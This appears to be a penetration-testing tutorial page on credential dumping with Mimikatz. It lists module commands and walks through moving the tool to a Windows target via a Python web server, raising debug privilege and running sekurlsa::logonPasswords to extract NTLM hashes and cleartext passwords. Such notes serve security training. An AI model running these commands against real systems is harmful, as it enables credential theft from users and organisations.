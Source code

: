 ## Mimikatz Overview

Mimikatz is a versatile tool that extends beyond just credential dumping. Here’s a brief overview of some of its core functionalities:

- **privilege::debug**: Allows Mimikatz to escalate its access to read sensitive information.
- **sekurlsa::logonPasswords**: Dumps credentials, including NTLM hashes and sometimes cleartext passwords.
- **lsadump::dcsync**: A powerful method to remotely simulate Domain Controller synchronization and dump domain hashes.
- **kerberos::list**: Lists Kerberos tickets, which can be exploited using techniques like pass-the-ticket.

**Note**: Mimikatz is a dual-use tool, commonly used by both attackers and security professionals. Its capabilities can assist in penetration testing, incident response, and research on credential theft methods.

# Credential Dumping with Mimikatz

Mimikatz is a well-known tool used for extracting credentials from Windows systems. This guide walks through using Mimikatz to perform credential dumping, focusing on gathering NTLM hashes or even cleartext passwords from logged-in users.

### Prerequisites

- Access to a Windows system with Administrator privileges.
- A copy of Mimikatz ready for transfer to the target machine.

---

### Step 1: Transfer Mimikatz to the Target System

First, transfer Mimikatz to the Windows host. For example, you can spin up a simple Python web server on your machine and download it onto the target.

Run the following command on your machine:
`python3 -m http.server 80`

![](../../../Images/Pasted%20image%2020250224173153.png)

### Step 2: Open Mimikatz in an Administrative Command Prompt

On the Windows host:

1. Open an **Administrative Command Prompt**.
2. Navigate to the directory where Mimikatz was downloaded:
    
    `cd C:\Users\j.smith\Downloads`
3. Run Mimikatz:
    
    `mimikatz.exe`

![](../../../Images/Pasted%20image%2020250224173519.png)

### Step 3: Set Privilege to Debug

Before dumping credentials, Mimikatz requires **debug privileges**. Run the following command:

`privilege::debug`

![](../../../Images/Pasted%20image%2020250224173640.png)

### Step 4: Explore Sekurlsa Module

The `sekurlsa` module is used for extracting credentials from memory. You can view available commands using:

`sekurlsa::`

![](../../../Images/Pasted%20image%2020250224173736.png)

Many of these functionalities overlap with other tools such as `secretsdump.py`.

### Step 5: Dump Credentials with `logonPasswords`

Finally, to dump credentials, including NTLM hashes, use:

`sekurlsa::logonPasswords`

This will list credentials for users currently logged in. Occasionally, Mimikatz may also reveal cleartext passwords, so it's worth running this command even if you’re just expecting hashes.

